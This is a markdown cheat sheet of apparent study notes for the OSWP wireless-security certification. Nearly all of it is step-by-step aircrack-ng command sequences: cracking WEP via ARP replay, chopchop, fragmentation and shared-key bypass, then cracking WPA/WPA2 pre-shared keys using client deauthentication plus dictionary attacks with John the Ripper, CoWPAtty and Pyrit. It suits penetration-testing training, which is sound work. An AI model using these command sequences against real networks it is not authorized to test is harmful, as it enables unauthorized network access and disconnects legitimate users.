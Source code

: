 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Open Authentication

#### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

#### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

#### Cracking clientless WEP network

##### KoreK chopchop attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -4 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

##### Fragmentation attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 6000 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -5 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

### Shared Key Authentication

#### Bypassing WEP Shared Key Authentication

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aireplay-ng -1 0 -e <ESSID> -y <.XOR FILENAME> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -3 -b <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aircrack-ng <.CAP FILENAME>
```

---

## WPA/WPA2 (Wi-Fi Protected Access)

### Pre-Shared Key Authentication

#### Cracking WPA with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

> John the Ripper (JTR)

```
./john --wordlist=<WORDLIST> --rules --stdout | aircrack-ng -e <ESSID> -w - <.CAP FILENAME>
```

> Airolib-ng

```
aircrack-ng -r <DB NAME> <.CAP FILENAME>
```

> Aircrack-ng

```
aircrack-ng -w <WORDLIST> <.CAP FILENAME>
```

> CoWPAtty

```
cowpatty -r <.CAP FILENAME> -f <WORDLIST> -2 -s <ESSID>
```

#### Cracking WPA with Pyrit

```
airmon-ng start <INTERFACE> <CHANNEL>
pyrit -r <INTERFACE> -o <FILENAME> stripLive
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

> Dictionary mode

```
pyrit -r <.CAP FILENAME> -i <WORDLIST> -b <BSSID> attack_passthrough
```

> Database mode

```
pyrit -i <WORDLIST> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <.CAP FILENAME> -b <BSSID> attack_db
```

---

## References

https://blog.fabiopires.pt/cracking-wifi-my-personal-notes-part-1-of-3-wep/

